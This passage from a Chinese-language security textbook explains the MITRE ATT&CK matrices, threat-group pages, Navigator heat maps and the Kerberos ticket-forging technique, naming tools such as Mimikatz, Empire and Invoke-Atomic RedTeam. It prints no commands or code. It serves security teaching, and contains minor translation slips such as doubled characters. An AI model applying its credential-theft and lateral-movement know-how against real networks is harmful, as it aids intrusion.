

分步骤说明可以在 Kali 网站找到：

[`www.kali.org/docs/general-use/novnc-kali-in-browser/`](https://www.kali.org/docs/general-use/novnc-kali-in-browser/)

再次强调，这仅供参考，我不建议在书籍练习中使用这种方式运行 Kali。

## 资源与参考文献

1. 已解决：VMware Workstation 不支持在此主机上的嵌套虚拟化 - [`communities.vmware.com/message/2953728#2953728`](https://communities.vmware.com/message/2953728#2953728)
2. Kali Linux WSL 文档 - [`www.kali.org/docs/wsl/`](https://www.kali.org/docs/wsl/)

# 第二部分 - MITRE ATT@CK 框架

## 第 4 章

### MITRE ATT@CK 框架

工具网站：[`attack.mitre.org/`](https://attack.mitre.org/)

> “知彼知己，百战不殆；知彼不知己，一胜一负；不知彼不知己，每战必殆（殆：危险）。” - 孙子，《兵法》

这里有多种模型可以跟踪和分析计算机安全入侵。多年年来，我花了大量时间报道军事新闻和军事网络，因此洛克希德·马丁的“网络杀伤链（Cyber Kill Chain）”¹立即进入我的脑海。网络杀伤链是将军事杀链概念引入网络领域的适配。它是洛克希德定义的、攻击者在攻击系统时使用的七步过程。它以链或线性路径从侦察、利用到命令与控制（C2），最后是“目标行动”或达成目标。

尽管网络杀伤链仍然相关、在使用并教学，但行业内的许多人现在使用 MITRE ATT&CK 矩阵进行训练和网络防护。MITRE ATT&CK 矩阵是学习、测试和防御规划的极佳资源。该矩阵基本上是对手行为的知识库——特别是攻击者的战术、技术和程序（TTPs）。本质上，它是现代版的“知彼知己”。



ATT&CK 企业级矩阵的部分截图

该矩阵是一个可用于多个安全领域的资源，包括威胁情报、检测与分析、对手模拟和红队对抗。高层管理人员可以使用它查看安全领域的概览，查看攻击源地和公司风险。企业安全团队可以使用它创建防御规则。红队和蓝队可以使用它来同时防御和测试网络安全，寻找到安全漏洞，甚至实时测试攻击程序（使用我们稍后将介绍的工具）。安全研究人员使用它分析来自知名黑客小组的攻击和程序。

ATT@CK 矩阵基本上有两个版本：位于 MITRE 主网站上的在线 HTML 版本，以及一个完全自定义的“ATT&CK Navigator”版本。

- ATT&CK 矩阵：[`attack.mitre.org/matrices/enterprise/`](https://attack.mitre.org/matrices/enterprise/)
- ATT&CK Navigator：[`mitre-attack.github.io/attack-navigator/`](https://mitre-attack.github.io/attack-navigator/)

你可以使用“ATT&CK Navigator”构建自己的威胁库，它是矩阵的可定制版本，允许你修改矩阵地图。ATT&CK Navigator 的一个流行用途是为组织安全创建“热力图”。基本上，你使用 ATT&CK 矩阵对组织中的不同安全区域运行安全评估。这可以快速显示可能存在安全重叠区域——多个工具监控相同的攻击指标，或者更重要的是，哪里需要添加、更改或改进安全。在实际安全测试中，使用矩阵的两种方法是使用 Caldera 或 Red Canary，我们将在本节的后续章节中讨论。

这些仅仅是 ATT&CK 矩阵的一些使用方式，它真的受限于使用它的安全团队的想象力，而且 MITRE 正在不断完善它。这绝对是开发你的安全策略非常有用的工具。如果你还没有用过它，我强烈建议你花大量时间研究它，它有很多价值之处。

## ATT@CK 基础使用概述

MITRE ATT&CK 是许多常见攻击者战术、技术和程序（TTPs）的集合和分类。只需访问 ATT&CK 网站即可查看矩阵。它使用攻击者战术作为列名，技术列在下方的单个方格中。点击任何技术链接都将显示攻击者使用的实际程序。


首先，点击“Matrices”（矩阵）菜单项。在企业（Enterprise）下有多个矩阵可用，包括 `Windows`、`Mac`、`Linux` 和云端（Cloud）。还有移动端（Mobile）和 `ICS` 矩阵，甚至还有一个 `PRE` 矩阵。每个矩阵涵盖了每个主题的 TTP（战术、技术和程序）。`PRE Matrix` 涵盖了攻击者的规划和准备——即攻击者在准备及之前使用的战术和技术。这些包括侦察以及针对目标构建攻击程序和工具。



PRE 矩阵介绍 - [`attack.mitre.org/matrices/enterprise/pre/`](https://attack.mitre.org/matrices/enterprise/pre/)

对于高级攻击者来说，关键在于准备。`PRE Matrix` 包含了这些每个步骤的 TTP。攻击者会深度探测目标，寻找基础设施和人员中可以利用的弱点。这包括使用开源情报技术（`OSINT`）、`社会工程学`和扫描技术。他们将分析目标的基础设施以及任何现有的防御措施。一旦确定了目标，他们将开始构建专门针对该组织的攻击能力。他们会布局一个攻击平台，该平台不仅有可能利用目标，还能保持不被发现。这通常涉及自定义漏洞程序和修改过的 `C2` 平台，它们能够与目标通信并从中泄露信息，且被检测到的概率很小。

一旦规划完成，攻击就开始了。此时，你从 `PRE Matrix` 过到 `Enterprise`、`Mobile` 或 `ICS` 矩阵。每个矩阵的布局都是相同的。初始攻击战术位于矩阵的左侧，向右移动时进入渐进战术。这模拟了攻击者在现实中的工作方式，以及他们在获得访问权限后如何横移。



MITRE 企业矩阵 - [`attack.mitre.org/matrices/enterprise/`](https://attack.mitre.org/matrices/enterprise/)

矩阵的流向从`侦察（Reconnaissance）`通过`初始访问（Initial Access）`、`权限提升（Privilege Escalation）`和`发现（Discovery）`到`收集（Collection）`、`命令与控制（Command & Control）`以及`泄露（Exfiltration）`。记住，这些是黑客战术的集合，因此没有任何攻击会执行每一个单独的战术。任何高级针对性攻击也不会与另一个完全相同，它们将根据目标而异。

点击任何技术链接都会显示攻击程序：



MITRE ATT&CK 暴力破解 T1110 - [`attack.mitre.org/techniques/T1110/`](https://attack.mitre.org/techniques/T1110/)

这些包含了对技术的解释、程序示例以及`缓解措施（Mitigations）`。它还显示了哪些主要的黑客组织使用过这些特定的程序。

### ATT@CK 威胁组织

主题网站：[`attack.mitre.org/groups/`](https://attack.mitre.org/groups/)

> MITRE ATT&CK 还包含一个威胁组织和攻击行动的列表。列出的其中几个是“高级持续性威胁”或 `APT` 组织。`APT` 是一个军事术语，通常指高度组织化或国家级黑客小组。这些组织以其目标不仅是外国政府，还包括大型企业而闻名。他们的目标通常是网络间谍活动、网络破坏，或者在某些情况下旨在造成尽可能损害的直接攻击。

MITRE ATT&CK 组织 - [`attack.mitre.org/groups/`](https://attack.mitre.org/groups/)

点击任何组织都会提供简短的情报概览，以及该实体使用的常用技术和软件的链接。它还包含了指向博客和其他外部资源材料的有用参考链接。



MITRE ATT&CK APT1 - [`attack.mitre.org/groups/G0006/`](https://attack.mitre.org/groups/G0006/)

点击“ATT&CK Navigator Layers”（ATT&CK 导航图层），然后点击“View”（查看），将打开一个特殊颜色色的 ATT&CK Navigator 版本。



相关的攻击者技术用颜色高亮。分析攻击组织将有助于对主要黑客组织过去如何攻击网络提供洞察性情报。这在孙子的“知彼知己”哲学中非常重要。你对你环境的直接威胁了解得越多，就越能阻止它们。记住，攻击者可以改变他们的战术，或者其他组织可能模仿一个著名的组织，但随后将攻击引向完全不同的方向。

### ATT@CK 矩阵 窃取或伪造 Kerberos 票

T1558 窃取或伪造 Kerberos 票 - [`attack.mitre.org/techniques/T1558/`](https://attack.mitre.org/techniques/T1558/)

T1550 传递票（Pass the Ticket） - [`attack.mitre.org/techniques/T1550/003/`](https://attack.mitre.org/techniques/T1550/003/)

在进入导航图之前，让我们一起了解一种技术。从`凭据访问（Credential Access）`战术中，来看“窃取或伪造 Kerberos 票（Steal or Forge Kerberos Tickets）”技术。这是黑客使用的一种非常常见的技术，尝试获取凭据，以便他们能够在环境中进行横移并绕过常规的安全控制。这也被称为“中票（Passing the Ticket）”。

一旦攻击者在目标网络中立脚，就会开始尝试`权限提升（Privilege Escalation）`和`凭据访问（Credential Access）`攻击。如果你跨越战术图的顶部，就会到达“凭据访问”。然后，向下找到“窃取或伪造 Kerberos 票”。点击框旁边的双线，它将展开子攻击。

如下所示：



现在，你可以点击主“窃取或伪造 Kerberos 票”框来查看该技术的概概述。或者，你可以点击四个子技术中的任何一个。

> ➢ 黄金票（Golden Ticket）
> ➢ 银色票（Silver Ticket）
> ➢ Kerberoasting
> ➢ AS-REP Roasting

让我们来看下黄金票（Golden Ticket）技术。点击“黄金票”，你将看到下面的解释。



“窃取或伪造 Kerberos 票: 黄金票” - [`attack.mitre.org/techniques/T1558/001/`](https://attack.mitre.org/techniques/T1558/001/)

其后是程序示例、缓解措施和检测部分。上面的信息解释了伪造的“黄金票”可以用于访问`活动目录（Active Directory）`资源。在程序示例部分，提到了三个特定的攻击工具 - `Empire C2`、`Ke3chang`和`Mimikatz`。如果你点击“Empire”，你会获得 `Empire 命令与控制框架`（书中稍后会介绍）的概览。包括可以在 `Empire` 中使用的技术完整列表。



“Empire” - [`attack.mitre.org/software/S0363/`](https://attack.mitre.org/software/S0363/)

再次，ATT@CK 列出了所有的技术 ID 和名称，以便你可以快速跳转到每一个一个。

如果你点击工具 `Mimikatz` 并查找我们的技术 ID（`1558`），你可以看到 `Mimikatz` 有一个你可以运行的 `Kerberos` 模块。这些只是信息；非常有用，但我们如何将这些转化为实际的工具和测试呢？`Invoke-Atomic RedTeam`！我们在下一章中介绍 `Invoke-Atomic RedTeam`。该工具允许你使用 MITRE 的技术编号运行实际的安全测试。

如果我们从 `Invoke-Atomic RedTeam` 中查找我们的技术编号，我们看到几个可以为该技术查看的 `Markup` 文件。



打开 `T1558.001` 文件夹，你会看到两个文本可读文件。打开其中任何一个并通读它。它列出了测试黄金票攻击的多种方法。包括一个完全关于使用 `Mimikatz` 的章节：



同样，我们将在下一章更多地讨论 `Invoke-Atomic RedTeam`。现在，只需知道它包含了你可以运行的许多工具命令，以测试许多 MITRE ATT&CK 技术。将 MITRE ATT&CK 和 `Invoke-Atomic RedTeam` 结合使用是一个强大的测试和学习平台！

ATT&CK 导航图


## 工具 GitHub: [`mitre-attack.github.io/attack-navigator/enterprise/`](https://mitre-attack.github.io/attack-navigator/enterprise/)

你可以使用 ATT&CK Navigator 构建你自己的安全矩阵！Navigator 是 ATT&CK 矩阵的特殊版本。它在本质上与企业版相同，不同在于你多获得了一个带有自定义控制功能的菜单栏。

> ➢ 在 MITRE Matrices 主菜单中点击“Enterprise”
> ➢ 然后点击“View on the ATT&CK Navigator”

或者直接使用上述链接访问该网页。

> ➢ 若要从全新的矩阵画布开始，只需点击“Create New Layer”。



> ➢ 接下来，点击“Enterprise”——你也可以点击“Mobile”（移动端）或“ICS”（工业控制系统）
> ➢ 点击“help”按钮获取完整的自定义说明

你你将拥有一个自己的矩阵，可以使用顶部的控制栏对其进行修改和自定义。



### 默认 Navigator 矩阵

通过这个菜单栏，你可以创建符合组织需求的自定义矩阵布局。例如，你可以创建一个自定义的威胁地图，用颜色高亮显示对你而言风险较高的攻击者技术。作为一个培训师，你可以为你想要涵盖的主题创建一个课程地图，并按难度进行编码。作为一名安全研究人员，你可以创建一个某些小组执行的攻击地图。这种可能性几乎是无限的。

只需使用控制栏上的图标即可让矩阵看起来完全符合你的设。例如，你可以使用 `shift` 或 `Ctrl` 来选择多个技术，然后使用背景颜色图标为矩阵添加不同的颜色。



### 示例威胁“热图”

通过使用颜色，你可以快速创建一个颜色编码的“热图”。这可以快速显示你的组织已经处理了哪些技术、在哪些方面比较薄弱，以及哪些需要尽快处理。一旦创建了自定义矩阵，你就可以将其导出为多种格式并与他人共享。红队或渗透人员可以在与企业安全团队的预规划中使用它，以确定将测试哪些技术，哪些是“超出范围”或不必要的。企业高、威胁分析师和研究人员也可以 Navigator 来研究威胁组织。

例如，这个关于伊朗威胁组织所用技术的：



伊朗威胁组织，“mitre-attck-templates”，作者 KyCarla – [`github.com/KyCarla/mitre-attck-templates`](https://github.com/KyCarla/mitre-attck-templates)

请记住，ATT&CK 并不是应对公司在现实世界中面临的所有攻击的全方位解决方案。高级攻击者会不断改变和修改他们的技术。尽管如此，它是开始或提升公司安全态势的良好框架。它应该被视为一个“动态”矩阵，不断演进和变化以适应你公司独特的安全状况。

## MITRE Engage

工具网站：[`engage.mitre.org/`](https://engage.mitre.org/)

